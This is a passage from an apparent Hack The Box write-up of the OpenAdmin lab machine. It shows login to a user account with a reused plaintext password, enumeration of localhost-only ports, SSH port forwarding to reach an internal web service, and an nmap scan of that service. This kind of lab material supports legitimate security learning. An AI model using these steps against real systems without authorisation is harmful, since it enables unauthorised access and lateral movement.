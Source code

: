 Moving on, I went to check what users were on the box.

{% highlight bash %}
www-data@openadmin:/opt/ona/www$ ls -al /home 
drwxr-xr-x  4 root   root   4096 Nov 22 18:00 .
drwxr-xr-x 24 root   root   4096 Nov 21 13:41 ..
drwxr-x---  6 jimmy  jimmy  4096 May  1 00:44 jimmy
drwxr-x---  6 joanna joanna 4096 May  1 02:43 joanna
{% endhighlight %}

With these 2 usernames and the password I found, I manually tried each possible combination and managed to log into `jimmy`.

{% highlight bash %}
$ ssh jimmy@openadmin.htb
jimmy@openadmin.htb's password: n1nj4W4rri0R!
...
jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
{% endhighlight %}

Unfortunately, `jimmy` doesn't have the `user.txt`, which means that `joanna` has it.

It was hard to figure where to go next so I did some basic enumeration and found a very interesting port `52846` that was only exposed on the localhost interface.

{% highlight bash %}
jimmy@openadmin:~$ netstat -peanut 
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      111        20279      -                   
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      0          20231      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      101        16729      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          20036      -               
...
{% endhighlight %}

Lets see if we can scan this port and see what service is running on it. But first, we will need to perform SSH port forwarding to our machine.

{% highlight bash %}
$ ssh -L 1337:localhost:52846 jimmy@openadmin.htb
jimmy@openadmin.htb's password: n1nj4W4rri0R!

$ nmap -sV -sT -sC -p 1337 127.0.0.1
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-01 03:31 EDT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000075s latency).

PORT     STATE SERVICE VERSION
1337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Tutorialspoint.com